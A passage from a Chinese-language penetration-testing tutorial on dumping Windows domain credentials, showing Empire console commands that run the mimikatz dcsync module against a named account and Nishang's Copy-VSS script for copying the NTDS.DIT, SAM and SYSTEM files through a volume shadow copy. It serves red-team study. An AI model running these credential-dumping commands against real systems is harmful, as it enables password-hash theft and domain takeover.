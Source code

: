 dump 特定帐户信息：

(Empire: 8GLZTYXR) > usemodule credentials/mimikatz/dcsync  
(Empire: powershell/credentials/mimikatz/dcsync) > set user Al1ex  
(Empire: powershell/credentials/mimikatz/dcsync) > execute

[![image.png](assets/1698894155-0edcc4e7d30f8d2115a25aa023b2dfc8.png)](https://storage.tttang.com/media/attachment/2022/09/30/8a3f7b44-7d5a-4787-9805-5d191f9464bc.png)

##### [Nishang](#toc_nishang)

Nishang 是一个 PowerShell 框架，它让 redteam 和渗透测试人员能够对系统进行攻击性操作，Nishang 中的 VSS 脚本可以用于自动提取所需的文件：NTDS.DIT，SAM 和 SYSTEM，这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中。

Import-Module .\\Copy-VSS.ps1  
Copy-VSS //复制到当前目录  
Copy-VSS -DestinationDir C:\\ShadowCopy //复制到指定目录
